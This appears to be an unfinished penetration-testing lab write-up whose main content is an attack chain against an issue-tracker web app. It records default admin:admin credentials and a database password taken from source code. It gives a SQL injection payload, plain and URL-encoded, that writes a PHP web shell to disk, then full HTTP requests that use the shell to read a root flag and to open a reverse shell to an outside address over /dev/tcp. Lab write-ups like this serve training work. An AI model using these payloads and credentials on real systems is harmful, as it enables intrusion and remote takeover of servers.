 #InProgress 

## Nmap
```

```

## Nmap UDP


# Enumeration

## HTTP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240925124008.png?raw=true)

admin:admin

download issuetracker.zip
analyze code
```
cat issuetracker/src/main/java/com/issue/tracker/issues/IssueController.java
```
issue_user:ManagementInsideOld797
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240926094027.png?raw=true)

sql credentials
possible sqli

```
/issue/checkByPriority?priority=' union select '<?php system($_GET["cmd"]); ?>' into outfile '/srv/http/cmd.php' -- -
```

```
POST /issue/checkByPriority?priority=%27%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%24%5f%47%45%54%5b%22%63%6d%64%22%5d%29%3b%20%3f%3e%27%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%73%72%76%2f%68%74%74%70%2f%63%6d%64%2e%70%68%70%27%20%2d%2d%20%2d HTTP/1.1

Host: 192.168.169.147:17445

Accept-Language: en-US

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Cookie: JSESSIONID=89166675E7FFFB6F2143ED1480750891

Connection: keep-alive


```

```
http://192.168.169.147:30455/cmd.php?cmd=cat%20/root/proof.txt
```

reverse shell method
```
GET /cmd.php?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.223%2F443%200%3E%261 HTTP/1.1

Host: 192.168.169.147:30455

Accept-Language: en-US

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Cookie: JSESSIONID=89166675E7FFFB6F2143ED1480750891

Connection: keep-alive
```


# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

